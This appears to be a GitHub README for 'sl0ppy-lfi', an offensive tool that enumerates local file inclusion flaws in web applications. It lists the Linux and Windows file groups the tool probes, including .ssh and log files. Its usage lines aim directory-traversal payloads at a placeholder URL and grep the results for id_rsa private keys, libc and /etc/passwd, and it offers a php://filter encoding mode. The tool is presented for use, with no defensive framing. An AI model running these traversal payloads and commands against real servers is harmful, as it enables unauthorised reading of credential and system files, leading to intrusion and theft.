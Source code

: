# sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encoding! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the pre-default implemented(read -p), and submit system user when asked for it.

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# Usage sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-filter-enc-lfi
`./sl0ppy-filter-enc-lfi http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/x0/sl0ppy-lfi/sl0ppy-enc.txt`

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* `./sl0ppy-lfi-fw` 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. (Temp not working in framework, looking to fix it on short notice)
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 1
* enter url when it ask for it like this `http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 2
* enter url when it ask for it like this `http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 3
* enter url when it ask for it like this `http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param


# Usage php://Filther-encoding` 
* `./sl0ppy-lfi-fw`
* * option 4 
* enter url when it ask for it like this `http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/$user/sl0ppy-lfi/sl0ppy-enc.txt` 
* or use grep to finds specific files..
* `http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/$user/sl0ppy-lfi/sl0ppy-enc.txt | grep "php"`
* `http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/$user/sl0ppy-lfi/sl0ppy-enc.txt | grep "/etc/passwd"`


